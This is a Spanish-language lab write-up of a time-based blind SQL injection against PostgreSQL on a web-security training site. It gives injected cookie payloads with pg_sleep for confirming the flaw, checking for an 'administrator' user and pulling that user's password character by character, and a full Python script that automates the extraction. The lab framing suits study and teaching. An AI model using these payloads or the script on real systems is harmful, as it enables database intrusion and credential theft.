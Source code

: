 ### **Blind SQL Time-Based en PostgreSQL**  

En este ataque, aprovechamos la inyección SQL para extraer información cuando no se muestran errores ni resultados visibles en la respuesta. En su lugar, medimos el tiempo que tarda el servidor en responder. Si una consulta inyectada provoca un retraso, significa que la condición evaluada es verdadera, lo que nos permite extraer información carácter por carácter.  

---

### **1. Verificación de inyección SQL**  

Para comprobar si el parámetro `TrackingId` es vulnerable, probamos inyectar comillas simples y otros caracteres que podrían alterar la consulta SQL.  

```
Cookie: TrackingId=1cP9I5rNyy22ENex' --> Devuelve 200 OK  
Cookie: TrackingId=1cP9I5rNyy22ENex'-- --> Devuelve 200 OK  
Cookie: TrackingId=1cP9I5rNyy22ENex'' --> Devuelve 200 OK  
```  

El hecho de que no devuelva errores sugiere que la aplicación maneja correctamente los fallos de sintaxis SQL.  

---

### **2. Identificación del motor de base de datos**  

Para determinar qué motor de base de datos está ejecutando la aplicación, probamos funciones específicas de cada uno.  

Primero intentamos con `sleep(5)`, que es común en MySQL:  

```
Cookie: TrackingId=1cP9I5rNyy22ENex' and sleep(5)--  
```  

Como la respuesta se devuelve inmediatamente, sabemos que **MySQL no está en uso**.  

En PostgreSQL, la función equivalente es `pg_sleep(x)`, así que probamos:  

```
Cookie: TrackingId=1cP9I5rNyy22ENex'||pg_sleep(10)--  
```  

La respuesta tarda **10 segundos**, lo que confirma que la inyección es posible y que el sistema utiliza **PostgreSQL**.  

---

### **3. Verificación de la existencia del usuario "administrator"**  

Una vez confirmado que se puede manipular la consulta SQL, probamos si el usuario **administrator** existe en la base de datos.  

Usamos `CASE` para condicionar la ejecución de `pg_sleep(10)`. Si el usuario existe, la consulta se retrasará 10 segundos; de lo contrario, la respuesta será inmediata.  

```
Cookie: TrackingId=1cP9I5rNyy22ENex'||(SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username = 'administrator')--  
```  

Si el tiempo de respuesta es de **10 segundos**, el usuario **administrator** existe en la base de datos.  

---

### **4. Extracción de la contraseña del usuario "administrator"**  

Ahora que sabemos que el usuario existe, usamos una estrategia similar para extraer su contraseña **carácter por carácter**.  

Utilizamos `substring(password,1,1)` para extraer el primer carácter de la contraseña y verificamos si es igual a "a". Si es cierto, la consulta se retrasa 10 segundos; si no, la respuesta es inmediata.  

```
Cookie: TrackingId=1cP9I5rNyy22ENex'||(SELECT CASE WHEN substring(password,1,1)='a' THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username = 'administrator')--  
```  

Probamos con diferentes caracteres (`b, c, d, ..., 9`) hasta encontrar el correcto.  

Hacer esto manualmente sería muy lento, por lo que podemos automatizarlo con **Burp Suite (Cluster Bomb Attack)** o mediante un **script en Python**.  

---

### **Automatización con Python**  

Para extraer la contraseña de forma automatizada, usamos un **script en Python** que realiza fuerza bruta en cada carácter y mide el tiempo de respuesta del servidor.  

```python
#!/usr/bin/env python3

from pwn import *
import requests, signal, time, sys, string

def def_handler(sig, frame):
    print("\n\n[!] Saliendo . . . ")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

# Configuración
main_url = "https://0ace00f30304bfb482b324f700230054.web-security-academy.net"
characters = string.ascii_lowercase + string.digits
cookies = {'session': 'aXldbnHwh9r2DHucOkZlJRLD68wDU8Vf'}

def makeAttack():
    password = ""
    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando")
    time.sleep(2)

    p2 = log.progress("Password")

    for position in range(1, 21):
        for char in characters:
            tracking_id = f"agiWv7ONBsULuQ3p'||(SELECT CASE WHEN substring(password,{position},1)='{char}' THEN pg_sleep(1.5) ELSE pg_sleep(0) END FROM users WHERE username = 'administrator')-- -"
            cookies['TrackingId'] = tracking_id

            time_start = time.time()
            requests.get(main_url, cookies=cookies)
            time_end = time.time()

            p1.status(f"Probando caracter {char} en la posición {position}")

            if time_end - time_start > 1.4:
                password += char
                p2.status(password)
                break

if __name__ == '__main__':
    makeAttack()
```

---

### **Explicación detallada del ataque**  

Este método permite extraer datos sin necesidad de verlos directamente en la respuesta del servidor. En su lugar, nos basamos en **diferencias en el tiempo de respuesta**.  

1. **Inyección SQL y manipulación de tiempos**  
   - Se usa `pg_sleep(x)` para generar retrasos en la respuesta.  
   - Si la condición evaluada es verdadera, la consulta se retrasa (`pg_sleep(10)`).  
   - Si es falsa, la consulta se ejecuta normalmente.  

2. **Extracción de información carácter por carácter**  
   - Se aplica `substring(password, X, 1)` para obtener el carácter en la posición `X`.  
   - Se prueba con diferentes caracteres (`a-z`, `0-9`) y se mide el tiempo de respuesta.  
   - Si la respuesta se retrasa, el carácter es correcto y se pasa al siguiente.  

3. **Automatización del ataque**  
   - Se implementa un **script en Python** que automatiza la prueba de cada carácter.  
   - Se utiliza la librería `pwntools` para mostrar el progreso en tiempo real.  
   - Se establece un umbral de tiempo (`>1.4 segundos`) para detectar caracteres correctos.  

Este ataque puede tardar varios minutos en completarse, dependiendo de la longitud de la contraseña y del tiempo de respuesta del servidor. Sin embargo, es altamente efectivo en entornos donde los errores de SQL están ocultos y la única forma de extraer datos es midiendo el tiempo de respuesta. 🚀
